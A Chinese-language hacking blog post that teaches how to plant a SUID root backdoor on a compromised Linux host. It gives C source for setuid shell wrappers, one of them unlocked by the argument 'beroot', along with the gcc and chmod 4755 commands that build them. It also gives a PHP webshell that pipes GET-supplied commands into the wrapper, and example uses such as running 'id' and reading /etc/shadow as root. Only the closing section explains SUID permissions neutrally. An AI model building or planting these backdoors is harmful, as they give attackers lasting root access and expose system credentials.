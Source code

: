 ```yaml
---
layout: post
title: suid后门（suid shell）
date: 2018-06-26 23:30:00
tags: 后门 suid
categories: hack 
author: PythonPig
---
```

* content
{:toc}
suid shell 是可以以shell所有者权限运行的shell。 

#### \#0x00 suid shell生成

suid shell简单代码：  
```c
#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
```




切换至root下，执行：  
gcc bashwrap.c -o bashwrap  
chmod 4755 bashwrap  （赋予suid权限）  

此时bashwrap就是一个suid shell  

#### \#0x01 suid shell调用（PHP环境）

把suid shell隐藏在目标系统上(假设放在/tmp/目录下)，通过web的方式调用（假设webshell权限较低，希望使用suid shell执行root命令），假如web环境是PHP，在web目录下上传如下PHP文件：  
```php 
<?php
if(isset($_GET['path']) && isset($_GET['cmd'])){
 $path = $_GET['path'];
 $cmd = $_GET['cmd'];
 $descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("pipe", "w")
 );
 $process = proc_open($path, $descriptorspec, $pipes);
 if (is_resource($process)) {
  fwrite($pipes[0],$cmd);
  fclose($pipes[0]);
  echo stream_get_contents($pipes[1]);
  echo stream_get_contents($pipes[2]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  $return_value = proc_close($process);
 }  
}
>
```  

访问http://x.x.x.x/exploit.php?path=/tmp/bashwrap&cmd=id即可以root的权限执行命令id  

注：  
1、webshell的权限较低，但是已经完成了提权，可以使用上述方式留下root后门；  
2、利用webshell提权时，把exp上传至/tmp/exp，访问http://x.x.x.x/exploit.php?path=/tmp/exp&cmd=id，若提权成功，则会以root权限执行命令id。  

#### \#0x02 suid shell调用（非PHP环境）  

在非PHP环境下使用如下代码生成suid shell
```
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[256]={0};
    if(strcmp(argv[1],"beroot") == 0)
    {
        setuid(0);
        int i;
        for(i = 2; i < argc; i ++){
            strcat(buf, argv[i]);
            strcat(buf," ");
        }
        execl("/bin/sh","sh","-c", buf,(char *)0);
        return 0;
    }
    else
    {
            printf("%s\n","Execution Error!");
            return -1;
    }
    return 0;
}
``` 

然后在低权限的web shell命令执行处执行：./bashwrap beroot cat /etc/shadow即可以root权限执行cat /etc/shadow  

#### \#0x03 suid介绍

当s这个标志出现在文件所有者的x权限上时，此时就被称为Set UID，简程SUID。  
例如执行ls -l /bin/su可以看到   

执行ls -l /usr/bin/passwd 可以看到     

在文件所有者的x权限上都出现了s权限，那么这个特殊权限的特殊性的作用是什么呢？  
'''
1、SUID权限仅对二进制程序有效。  
2、执行者对于该程序需要具有x的可执行权限。 
3、本权限仅在执行该程序的过程中有效。  
4、执行者将具有该程序拥有者的权限。  
'''  

SUID的关键作用体现在第四句，SUID的目的就是：让本来没有相应权限的用户运行这个程序时，可以访问他没有权限访问的资源。  
#### \#0x04 参考
[深入Linux文件权限 SUID/SGID/SBIT](https://blog.csdn.net/imkelt/article/details/53054309) 
文章中部分源代码在前辈代码的基础上略做修改，由于时间久远，现在已经不知道代码摘自何处，若作者看到，请速联系（联系方式见about标签）


